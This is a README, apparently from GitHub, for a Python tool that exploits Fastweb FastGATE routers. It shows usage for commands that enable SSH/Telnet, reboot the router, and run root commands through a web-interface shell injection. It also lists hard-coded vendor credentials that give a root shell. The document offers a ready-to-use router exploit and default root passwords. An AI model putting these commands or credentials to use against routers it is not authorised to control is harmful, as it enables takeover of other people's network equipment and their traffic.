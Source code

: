 # FastGATE Python tool

Python tools for Fastweb FastGATE exploits.

```
Usage: fastgate [OPTIONS] COMMAND [ARGS]...

Options:
  -h, --host TEXT     IP address or hostname
  -p, --port INTEGER  HTTP port
  --help              Show this message and exit.

Commands:
  check_login  Check web UI authentication.
  get_root     Attempt to enable access to SSH/Telnet.
  reboot       Reboot router.
  shell        Run command on router with shell injection...
```

## Installation

```sh
pip install https://github.com/Depau/fastgate-python/archive/master.zip
```

## Usage

#### Enable SSH and Telnet from local network:

```sh
fastgate get_root
```
You can then SSH to the router. Log in as `lanadmin`, `lanpasswd`.

In the router's custom shell, run the `sh` hidden command and log in as `lanadmin`, `lanpasswd` or `FASTGate`, `Testplant123` to get a root shell.

#### Reboot router

```sh
fastgate reboot
```

#### Run command as root on router (uses web UI shell injection, no output)

```sh
fastgate shell (command)
```

#### Check web UI login

```sh
fastgate check_login --u username -p password
```
or simply
```sh
fastgate check_login
```
(you will be prompted for login info)

# Credits

- @Nimayer https://github.com/Nimayer/fastgate-toolkit
